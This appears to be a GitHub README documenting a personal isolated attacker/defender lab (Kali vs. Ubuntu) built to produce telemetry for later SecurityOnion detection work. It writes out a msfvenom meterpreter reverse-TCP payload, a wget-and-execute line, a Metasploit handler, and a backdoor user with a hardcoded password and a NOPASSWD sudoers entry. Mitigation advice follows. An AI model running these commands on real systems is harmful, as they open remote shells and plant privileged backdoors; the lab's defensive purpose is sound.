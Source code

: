 # ATTACKER-DEFENDER LAB

Author: Bobo Nikolov
Date: 27-10-2025
Status: In Progress (Defender / SecurityOnion phase next)


---


### Objective
Build isolated attacker <> victim lab to demonstrate reconnaissance, initial access, execution, persistence, and privilege escalation — then add a defender (SecurityOnion) to capture telemetry and create detections.

### Architecture and Scope
"lab_attacker" - Kali Linux(Internal Network(labnet)/NAT)IP 10.10.10.10
"lab_victim" - Ubuntu Linux(Internal Network(labnet)/Internal Network(intnet))IP 10.10.10.20
"Network" - Internal Network only(Isolated)
"Snapshot" - Created before testing and reverted again for repeatability.

NOTE: All work is performed on my VM's only!


---


  ## ENUMERATION 
  
(In linux terminal)Run:
nmap -sS -sV 10.10.10.20
'evidence/2025-10-27_05-52_AM_Screenshot_Enumeration_ .png'


---


  ## INITIAL ACCESS AND EXECUTION

 ### Summary
Created a small Linux meterpreter ELF payload on attacker host, served it via HTTP server, fetched and executed it on the victim, then handled the incoming meterpreter session from Metasploit.

 ### Artifacts / screenshots
Payload creation: 'evidence/2025-10-27_15-32-08_Payload_Creation_Initial_Access_Execution.png'
Serving payload: 'evidence/2025-10-27_15-38-08_Serving_Payload_Initial_Access_Execution.png'
Payload downloaded on victim: 'evidence/2025-10-27_15-42-04_Payload_On_Victim_Initial_Access_Execution.png'
Exploit/run and handler: 'evidence/2025-10-27_15-47-45_Exploit_Run_And_Waiting_Initial_Access_Execution.png'
Successful execution(meterpreter/shell proof)- 'evidence/2025-10-27_15-58-31_Successful-Execution_Initial-Access-Execution.png'

 ### What I did
Generated a Linux ELF reverse-TCP payload on the attacker:
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -O shell32.elf

 ### Served the payload from attacker
python3 -m http.server 8000 --bind 10.10.10.10

 ### On the victim fetched and executed it 
wget http://10.10.10.10:8000/shell32.elf -O /tmp/shell && chmod +x /tmp/shell

 ### Started a multi handler on Metasploit
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST 10.10.10.10
set LPORT 4444


---


   ## PERSISTANCE
   
 ### Summary
To demonstrate persistance detection and to create realistic defender telemetry for the upcoming SecurityOnion phase, a benign backdoor user was created and a sudoers entry added. All were documented and snapshot was reverted.

 ### Artifacts / Screenshots
-Persistance (new user created): 'evidence/2025-10-27_17-59-25_Persistance-New-User_Persistance.png'

 ### Commands Executed
sudo useradd -, -s /bin/bash backdoor_user //Creating a new user
echo 'backdoor_user:P@ssword123!' | sudo chpasswd //Setting a password

// Add sudoers entry (NOPASSWD) to simulate privilege-capable persistence

echo 'backdoor_user ALL=(ALL) NOPASSWD:ALL' | sudo tee /etc/sudoers.d/backdoor_user
sudo chmod 440 /etc/sudoers.d/backdoor_user


---


   ## PRIVILEGE ESCALATION
   
 ### Summary
After intitial access, local privilege escalation was demonstrated - minimal proof (whoami / id) captured to validate root access. This was performed only to verify impact for detection engineering.

 ### Artifact / Screenshot
-Privilege escalation(root obtained): 'evidence/2025-10-27_18-49-33_Privilege-Escalation.png'

 ### Proof commands / notes
// From the interactive shell on meterpreter > shell
whoami
id

//In some cases a known local vector was used and 'sudo /bin/bash' or similar verified root:
sudo /bin/bash
whoami //lead to root


---


   ### CONCLUSION

This lab demonstrated a complete attacker workflow in an isolated environment: reconnaissance, payload creation and delivery, successful remote code execution, a persistence demonstration, and local privilege escalation (proof-of-concept). The aim was not to cause damage but to produce realistic telemetry and artifacts that a defender can use to tune detections and playbook responses.

The environment was fully isolated and snapshotted before testing; all changes were reverted after evidence capture. This project serves as a foundation for the defender phase (SecurityOnion), where I will ingest network and host telemetry and author detection rules.


---


   ## LESSION'S LEARNED AND MITIGATION

  ### Takeaways
  
- Simple file-download + execute flows are a high-risk vector (e.g. `wget` + `chmod` + run). Prevent by restricting outbound HTTP to unapproved hosts and enforcing execution policies.
- Creation of sudoers/NOPASSWD entries is a common persistence pattern — monitor `/etc/sudoers.d/` and user creation events.
- Local privilege escalation vectors (SUID binaries, misconfigured services) remain a rapid path to full compromise — remove unnecessary SUID/privileged binaries and harden kernel/service updates.

  ### Recommended mitigation
  
- Block unneeded inbound services; harden public-facing services.
- Enforce least privilege and MFA for administrative access.
- Instrument hosts with sysmon/auditd and forward to your SIEM; create alerts for: unexpected `wget`/`curl` + `chmod +x`, new `/etc/sudoers.d/` files, and new user creation.
- Add network egress restrictions to limit direct payload fetch from attacker-controlled HTTP servers.


---


  ### Next steps (roadmap)

- SecurityOnion integration (planned): deploy sensor/manager, ingest Zeek/Suricata logs, simulate the attack again, and capture detection telemetry.  
- Detection engineering: write Sigma/Suricata rules and Splunk/SO correlation searches for this scenario.  
- Lateral movement (optional): expand the lab to include a second internal host to demonstrate lateral movement and network-based detection. (WIP — planned for next iteration)


---


  ## Appendix – Commands & Artifacts

Important commands used (sanitized)

```bash
# Recon
nmap -sS -sV 10.10.10.20

# Payload creation
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell32.elf

# Serve payload
python3 -m http.server 8000 --bind 10.10.10.10

# Victim (lab-only)
wget http://10.10.10.10:8000/shell32.elf -O /tmp/shell && chmod +x /tmp/shell && /tmp/shell

# Persistence (lab-only)
sudo useradd -m -s /bin/bash backdoor_user
echo 'backdoor_user:Password123!' | sudo chpasswd
echo 'backdoor_user ALL=(ALL) NOPASSWD:ALL' | sudo tee /etc/sudoers.d/backdoor_user
sudo chmod 440 /etc/sudoers.d/backdoor_user



